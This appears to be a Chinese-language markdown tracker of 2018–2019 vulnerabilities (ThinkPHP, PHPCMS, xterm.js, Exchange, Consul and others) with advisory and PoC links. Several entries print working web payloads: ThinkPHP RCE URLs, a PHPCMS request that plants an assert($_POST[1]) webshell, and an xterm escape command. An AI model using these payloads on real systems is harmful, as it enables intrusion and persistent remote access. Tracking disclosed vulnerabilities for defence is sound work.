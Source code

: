 1. **【20190122】apt/apt-get 远程命令执行漏洞披露（CVE-2019-3462）**
    - <https://justi.cz/security/2019/01/22/apt-rce.html>
    - <https://www.anquanke.com/post/id/170090>
    
1. **【20190115】ThinkPHP 5.1~5.2 RCE漏洞**
    - ThinkPHP 5.0.x-5.0.23、5.1.x、5.2.x 全版本远程代码执行漏洞分析 <http://blog.nsfocus.net/thinkphp-full-version-rce-vulnerability-analysis/>
    - POC合集：<https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection>

1. **【20190110】xterm.js 命令执行漏洞CVE-2019-0542**
    - POC：`echo -e "abcdef\x1bP+qfoo;\ntouch /tmp/foo;aa\n\x1b\n"`
    - 在xterm终端下可逃逸并执行命令。利用场景：受害者执行curl http://xxx/xxx.txt，服务端返回的内容包含上述特殊字符，于是回显的数据逃逸了xterm的终端，并额外执行了命令。


2018
---
1. **【20181221】Windows越权任意文件读取0day**
    - <https://thehackernews.com/2018/12/windows-zero-day-exploit.html>
    - <https://sandboxescaper.blogspot.com/2018/12/readfile-0day.html>

1. **【20181220】微软发布补丁修复一个在野利用的IE漏洞 CVE-2018-8653**
    - <https://www.cnbeta.com/articles/tech/800317.htm>
    - <https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8653>

1. **【20181210】ThinkPHP发布V5.1.31、V5.0.23安全更新，修复Getshell漏洞**
    - <https://mp.weixin.qq.com/s?__biz=MjM5OTEzMzQwMA==&mid=2651667456&idx=1&sn=746ee2b9aa2b02f6ff60ff906ec2939a>
    - 受影响版本包括：V5.0.*、V5.1.*
    - 修复的版本：V5.1.31、V5.0.23
    - /public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=321
    - /public/index.php?s=index/\think\view\driver\Php/display/%3E&content=aaa%3C?php%20phpinfo();?%3E

1. **【20181205】Kubernetes API特权提升漏洞CVE-2018-1002105**
    - <https://github.com/kubernetes/kubernetes/issues/71411>

1. **【20181205】Flash命令执行漏洞CVE-2018-15982**
    - 释放后重用，任意代码执行。
    - <http://blog.nsfocus.net/adobe-flash-player-cve-2018-15982/>
    - 攻击事件分析：<https://www.freebuf.com/column/191383.html>
    - POC：<https://github.com/B1eed/VulRec/tree/master/CVE-2018-15982>

1. **【20181128】PHPCMS 2008 任意文件写入 RCE CVE-2018-19127**
    - 描述：发恶意包：`/type.php?template=tag_(){};@unlink(FILE);assert($_POST[1]);{//../rss`Shell落在这个文件：`/cache_template/rss.tpl.php` 内容：`"@unlink(FILE);assert($_POST[1]);"`
    - <http://www.yncert.org.cn/article/show/8119.html>
    - <https://github.com/ab1gale/phpcms-2008-CVE-2018-19127>

1. **【20181127】Consul服务接口存在RCE漏洞**
    - 官方公告：<https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations>
    - 描述： Consul的早期版本中HTTP API没有进行访问控制，可以用来执行命令。Consul 和 zookeeper 及 etcd 类似常用于分布式系统，HashiCorp公司推出的开源工具，用于实现分布式系统的服务发现与配置。问题出在老版本的默认配置（新版本已经改成可选配置）, server 和 client 会开放 8500 端口作为 web api，默认没有鉴权，v1/agent/service/register，v1/session/create 等接口都可用于执行命令。
    - PoC：<https://packetstormsecurity.com/files/150940/consul_service_exec.rb.txt>

1. **【20181113】严重，Exchange Server账号冒用，盗用任意用户邮件CVE-2018-8581**
    - <https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8581>
    - POC：<https://github.com/thezdi/PoC/tree/master/CVE-2018-8581>
    - POC：<https://github.com/WyAtu/CVE-2018-8581>
    - 分析CVE-2018-8581：在Microsoft Exchange上冒充用户 <https://www.anquanke.com/post/id/168337>
    - 分析CVE-2018-8581：<https://xz.aliyun.com/t/3670>
    - 新的攻击手法，可以拿域控：<https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/>
    - 利用同样的方式拿到EWS Hash，通过这个Hash进行NTLM中继，攻击域控ldap，给指定用户提权，通过dscync导出人以用户Hash。
    - 补丁：<https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-0686>
